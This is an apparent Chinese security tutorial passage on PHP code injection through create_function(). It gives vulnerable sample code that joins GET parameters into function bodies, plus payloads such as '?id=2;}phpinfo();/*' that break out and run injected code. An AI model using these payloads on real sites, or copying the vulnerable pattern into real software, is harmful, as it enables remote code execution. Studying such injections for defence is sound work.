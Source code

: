 这里直接传入phpinfo是不行的，构造的payload

```txt
?id=2;}phpinfo();/*
```

传入后，代码如下

```php
function niming($name){
echo $name.编号2;
     }phpinfo();/*
}
```

![Snipaste_2018-10-21_16-00-29.png](https://whitecell.io/upload/attach/201810/151_WSWQYT2KD22G23F.png "Snipaste_2018-10-21_16-00-29.png")

这样就执行了代码，再给出网上找的一个例子。

```php
<?php

error_reporting(0);

$sort_by = $_GET['sort_by'];

$sorter = 'strnatcasecmp';

$databases=array('1234','4321');

$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';

usort($databases, create_function('$a, $b', $sort_function));
```

构造的payload如下

```php
?sort_by="]);}phpinfo();/*
```

![Snipaste_2018-10-21_16-07-42.png](https://whitecell.io/upload/attach/201810/151_5SC3SHYEYHNTEXS.png "Snipaste_2018-10-21_16-07-42.png")

在自己写示例的时候，因为网上的一个示例纠结了挺久。

代码如下

```php
<?php

error_reporting(0);

//?id=2;}phpinfo();/*
$id=$_GET['id'];
$str2='echo'.$a.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
echo "<br/>";
echo "==============================";
```


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128